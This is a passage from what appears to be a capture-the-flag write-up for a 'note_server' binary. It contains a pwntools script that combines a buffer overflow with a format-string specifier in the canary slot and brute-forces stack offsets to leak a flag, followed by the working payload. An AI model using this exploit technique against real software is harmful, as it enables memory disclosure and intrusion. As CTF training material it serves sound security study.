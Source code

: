 ```shell
1. Write note
2. Read note
3. Exit
> 2
Choose a note [0 - 7]: 0


1. Write note
2. Read note
3. Exit
> 3
Overflow attempt. Canary value > BBBB

```

Great. Now we just need to find our flag position on the stack, I wrote some python to try all the offsets:

```python
from pwn import *

offset = 264

for i in range(1, 100):
    p = process('./note_server')
    p.sendlineafter(b'> ', b'1')  # Write note
    p.sendlineafter(b']: ', b'0') # Note 0
    payload = b'A' * offset
    payload += b'%%%d$s' % i      # format string in the canary position
    p.sendline(payload)           # Send content of note.
    p.sendlineafter(b'> ', b'2')  # Read note
    p.sendlineafter(b']: ', b'0') # Note 0
    p.sendlineafter(b'> ', b'3')  # Exit
    try:
        res = p.recvall().decode().split('> ')[1]            # fmt string result.
        if 'testflag' in res:
            print('flag at %d' % i)
            print('use payload: %s' % payload)
            break
    except:
        continue
    p.close()
```

Then I ran it and it found the right offset:

```shell
$ echo testflag > flag.txt
$ PWNLIB_SILENT=1 ./leak.py
flag at 45
use payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%45$s'
```
